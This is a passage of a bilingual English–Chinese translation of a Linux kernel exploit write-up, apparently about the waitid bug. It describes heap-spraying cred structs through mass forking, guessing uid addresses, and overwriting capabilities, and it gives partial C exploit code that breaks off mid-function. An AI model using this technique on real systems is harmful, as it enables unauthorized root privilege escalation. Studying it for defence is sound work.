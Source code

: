 ![](https://www.twistlock.com/wp-content/uploads/2017/12/diagram.png)

So essentially in order to overwite our caps will have to write to:

>所以重要的是為了覆寫我們的 caps 將必須寫到:

`address_of_uid+0x4*8 = address_of_uid+0x20 = address_of_cap_inferitable`

Note: These addresses are relevant to my system, your addresses might differ.

>註: 這些位址跟我的系統有相關聯，你的位址可能會不一樣。

In order to find out where our sprayed `cred structs` might land in the heap we will use `gdb` again and set a breakpoint on `sys_getuid` in order to break when our program calls `getuid()`.

>為了找到我們噴灑的 `cred structs` 在堆積中可能的落點，我們將再次使用 `gdb` 並設置一個中斷點在 `sys_getuid` 上，以便在程式呼叫 `getuid()` 的時候中斷下來。

A few step commands after the breakpoint (it took 5 on my system) should reveal the `cred struct` address in the RAX register.

>斷下來後，步進幾個指令(在我的系統上是 5 個)應該會在 RAX 暫存器中顯示 `cred struct` 的位址。

We can repeat that process of finding the struct for a number of forks in order to collect enough addresses and analyze the statistics of where the `struct cred` is most likely to be in the heap

>我們可以重複這個找結構的過程，藉由數個分叉(fork)以便收集足夠的位址並分析統計 `struct cred` 在堆積中最有可能的所在。

So the plan is as follows:

>計畫如下:

1. Spawn thousands of processes by calling `fork()` in order to create thousands of `cred structs` in the kernel heap and make each of the processes constantly check if its UID==0 by calling `getuid()`
2. Start writing the value 0 to addresses to which the `struct cred->uid` might land
3. If and when one of our forked processes gets uid==0, it means that we have successfully overwritten the `uid` value with our guesses from step 2. Now we can overwrite the rest of the `cred struct` and change caps by writing to the offsets that we determined.

>1. 為了在核心堆積中創造數千個 `cred structs` 需要透過呼叫 `fork()` 產生數千個行程，並且呼叫 `getuid()` 使每個行程都不斷地檢查它自己的 UID 是否為 0
>2. 開始將 0 寫入位 `struct cred->uid` 可能的落點位址中
>3. 當其中一個我們分叉(fork)出來的行程獲得 uid 為 0，就代表我們已經成功從第二步猜測到並覆寫了`uid`的值。現在我們可以覆寫 `cred struct` 其餘的部分並藉由覆寫我們計算的值來修改 caps。

Our dirty exploit will be something to the effect of:

>我們的髒髒漏洞利用效果如下:

```clike
void writecaps(char *addr,unsigned long value){
while(1) {
      int pid = clone(exit_func, &amp;new_stack[5000], CLONE_VM | SIGCHLD, NULL);
      if (!pid) {
        exit(0);
      }
      if (pid == value) {
        syscall(SYS_waitid, P_PID, pid, addr, WEXITED, NULL);
        break;
      }
}

void spraynpray(){
pid_t pid;
FILE *f;
char *argv[] = {"/bin/sh", NULL};
for (int i=0;i<5000;i++)
{
    pid = fork();
    if (pid==0)
    { // child process
```